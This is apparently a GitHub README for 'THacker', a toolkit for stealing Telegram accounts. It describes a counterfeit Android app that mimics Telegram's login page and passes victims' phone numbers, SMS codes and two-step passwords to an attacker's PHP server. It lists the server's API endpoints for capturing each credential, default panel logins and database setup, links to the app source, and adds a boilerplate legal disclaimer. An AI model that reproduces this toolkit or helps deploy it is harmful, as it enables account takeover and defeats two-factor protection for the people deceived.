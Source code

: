 # Telegram Hacker ` THacker `

### Android App
The Android app is Written in dart (Flutter) and the source code for that is 👇👇👇
[Android App source code](https://drive.google.com/file/d/1l1miqlZP4xCrxwyhF3EXr8VTq-4gLyW7/view?usp=sharing)

### What Is It?

THacker is a Pushing platform that can trick and get an account even if its secured with two step verification system 
**Version 1.0**

## How it works

	It works with an android device so you have the victim must install the android app or the app can be installed by you in his device the app will look just like normal telegram app so the victim will think its the normal telegram app he usually uses and when he open the app he will see the default telegram login page so Thacker comes here the app will communicate to Thacker not telegram server so all informations send by the user will be send to Thacker which is you   


# API Reference

- You can use `Postman` for testing purpose

	` Definition of Keywords in the URL `

	*Name of the device*							**[DEVICE]**
	*Name of the app* 								**[APP_NAME]**
	*Received id during the first request* 			**[ID]**
	*Phone number* 									**[PHONE]**
	*Version of the app* 							**[VERSION]**
	*SMS code* 										**[CODE]**
	*Password* 										**[PASSWORD]**

	`Keywords are  shown in brackets []`

	> https://example.com/thacker/api/access.php?device=[DEVICE]&app=[APP_NAME]&version=[VERSION]

	> https://example.com/thacker/api/phone.php?id=[ID]&phone=[PHONE]

	> https://example.com/thacker/api/code.php?id=[ID]&code=[CODE]

	> https://example.com/thacker/api/verify.php?id=[ID]

	> https://example.com/thacker/api/password.php?id=[ID]&password=[PASSWORD]

	> https://example.com/thacker/api/vpass.php?id=[ID]

## Language

> PHP

> Jquery

> Ajax


## Web Page Login Details

> ID			~		12345678
> Password		~		password


## Database

- There is a `telegram.sql` file you can use to import to the database

	` Database Info `

	*Host* 										`localhost`
	*User* 										`root`
	*Password* 									
	*Database Name*									`telegram`

# Legal disclaimer

Usage of Thacker for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. The Developer assume no liability and is not responsible for any misuse or damage caused by this program.


## Creator

- Mikiyas Lemlemu  [Web-Developer](Web-Developer)
	
	> [Facebook](https://facebook.com/mikiyaslemlemu)
	
	> [Telegram](https://t.me/m_miko)
	
	> [Github](https://github.com/mikiyasET)

	> [Email](mikiyaslemlemu@gmail.com)

## License & copyright

© Mikiyas Lemlemu

### Donate

[![ko-fi](https://www.ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/N4N51K3IH)


